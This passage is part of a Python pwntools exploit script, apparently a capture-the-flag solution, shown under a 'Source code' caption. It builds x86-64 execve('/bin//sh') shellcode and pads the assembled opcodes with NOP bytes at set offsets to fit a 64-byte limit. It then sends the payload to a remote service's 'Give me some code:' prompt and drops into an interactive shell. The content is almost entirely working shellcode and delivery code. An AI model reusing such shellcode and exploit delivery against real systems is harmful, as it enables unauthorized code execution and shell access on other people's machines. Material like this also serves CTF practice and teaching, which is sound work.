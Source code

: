 ``` python
41
41
44
51
63""".split('\n') ]

#sc_org = [ asm(x) for x in shellcraft.sh().split('\n') if "/*" not in x ]
sc_org = """
  xor rsi,rsi
  push rsi
  mov rdi,0x68732f2f6e69622f
  push rdi
  push rsp
  pop rdi
  push 59
  pop rax
  cdq
  syscall
"""

if debug == 1:
    sc_org = [ asm(x) for x in sc_org.split('\n')  ]
    with open('shellcode', 'wb') as f:
        pickle.dump(sc_org, f)
else:
    with open('shellcode', 'rb') as f:
        sc_org = pickle.load(f)

print(shellcraft.sh())
print(nops)
print(sc_org)


sc_send = b''
while sc_org:
    opcode = sc_org.pop(0)
    print(opcode)
    while nops and nops[0] < len(sc_send + opcode):
        while len(sc_send) - 1 <= nops[0]:
            sc_send += b'\x90'
        nops.pop(0)

    sc_send += opcode
print(sc_send)
print(len(sc_send))
assert(len(sc_send) < 64)

c.sendlineafter('Give me some code:', sc_send)

c.interactive()
c.close()
```
